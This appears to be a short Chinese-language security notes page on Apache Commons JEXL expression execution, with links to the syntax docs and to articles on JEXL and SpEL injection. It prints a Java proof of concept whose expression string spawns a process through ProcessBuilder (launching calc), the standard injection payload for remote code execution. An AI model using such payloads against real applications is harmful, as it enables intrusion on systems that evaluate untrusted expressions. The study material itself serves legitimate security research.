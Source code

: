 ```yaml
---
comments: true
---
```

# 7 Java 表达式执行

## 7.1 JEXL

Apache Commons JEXL（Java Expression Language）是一个开源的表达式语言引擎，允许在Java应用程序中执行动态和灵活的表达式。JEXL旨在提供一种简单、易用的方式，通过字符串形式的表达式进行计算和操作。

语法参考：

- [官方手册](https://commons.apache.org/proper/commons-jexl/reference/syntax.html){:target="_blank"}
- [Apache Commons JEXL 语法](hthttps://ridikuius.github.io/Apache-Commons-JEXL3-%E8%AF%AD%E6%B3%95){:target="_blank"}

```java title="PoC"
package cc.trd;

import org.apache.commons.jexl3.*;

public class jexlrun {
    public static void main(String[] args) {
        JexlEngine engine = new JexlBuilder().create();
        String cmd="new('java.lang.ProcessBuilder', ['cmd.exe', '/c', 'calc']).start()";
        JexlExpression expr = engine.createExpression(cmd);
        JexlContext jc = new MapContext();
        Object result = expr.evaluate(jc);
        System.out.println(result);
    }
}
```


## 参考资料

- [Jexl 表达式注入分析与bypass](https://xz.aliyun.com/t/14683){:target="_blank"}
- [SpEL注入RCE分析与绕过以及java单向执行链的思考](https://s1mple-top.github.io/2022/03/20/SpEL%E6%B3%A8%E5%85%A5RCE%E5%88%86%E6%9E%90%E4%B8%8E%E7%BB%95%E8%BF%87%E4%BB%A5%E5%8F%8Ajava%E5%8D%95%E5%90%91%E6%89%A7%E8%A1%8C%E9%93%BE%E7%9A%84%E6%80%9D%E8%80%83/){:target="_blank"}